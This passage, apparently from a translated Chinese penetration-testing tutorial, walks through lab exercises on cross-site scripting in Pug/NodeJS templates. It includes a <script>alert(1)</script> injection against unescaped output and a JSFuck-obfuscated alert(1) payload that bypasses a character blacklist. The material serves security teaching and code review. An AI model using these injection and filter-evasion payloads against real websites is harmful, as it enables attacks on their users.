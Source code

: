 顺便说一句，下面是一个小小的改变，正确的方法是在插值周围添加引号：

* Pug 模板源代码
    * script.
    * var user3="#{name3}"

**练习4**

在这个例子中，我们有 [Pug 非转义代码](https://pugjs.org/language/code.html)，由 != 表示，因为没有转义，所以它很容易受到 XSS 的攻击。因此，在这种情况下，我们可以对输入字段使用简单的 `<script>alert(1)</script>` 样式攻击。

* Pug 模板源代码：
    * p != 'No results found for '+name4
* 尝试输入 payload：
    * `<script>alert(1)</script>`
* 点击提交后，我们应该看到弹出窗口。你可以通过查看页面源代码并搜索“alert”进行验证。

**练习5** 

假设我们得到一个使用转义字符串插值和某种类型的过滤的应用程序。在下面的练习中，我们在 NodeJS 服务器中执行规则最小的黑名单过滤脚本，删除“<”，“>”和“alert”等字符。但是，他们再次错误地将我们的转义字符串插值放在 script 标签中。如果我们可以在那里利用 JavaScript，我们就可以发现一个 XSS：

* 打开练习5
* Pug 模板源代码
    * name5 = req.query.name5.replace(/[;’"<>=]|alert/g,"") 
    * script.
        * var user3 = #{name5};
* 尝试输入 payload 
    * 你可以尝试 alert(1)，但由于过滤器不起作用。你也可以尝试像`<script>alert(1)</script>`这样的东西，但转义代码和过滤器会拦截我们。如果我们真的想获得能利用 alert(1)的 payload，我们该怎么办？
* 我们需要弄清楚如何绕过过滤器来插入原始 JavaScript。请记住，JavaScript 功能非常强大，并且具有许多功能。我们可以利用此功能来提供一些新颖的 payload。绕过这些过滤器的一种方法是使用新颖的 JavaScript 表示方法。这可以通过名为 http://www.jsfuck.com/ 的站点创建。如下所示，通过使用括号，括号，加号和感叹号，我们可以重新创建 alert(1)。
* JSF*ck Payload：
```
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
```

![](img/chapter_3/3-15.png)

如你所知，许多浏览器已开始包含 XSS 保护机制。我们甚至可以使用这些 payload 来绕过某些浏览器保护。尝试在 Kali 之外的真实浏览器中使用它们，例如 Chrome。

在复杂的应用程序上触发 XSS 并不容易。很容易忽视或误解框架如何处理输入和输出。因此，在为 Pug/NodeJS 应用程序执行源代码审查时，在源代码中搜索 `!{`，`#{` 或 `${`  有助于可能触发 XSS 的位置。了解上下文，以及是否需要在该上下文中进行转义，这是至关重要的，我们将在以下示例中看到。
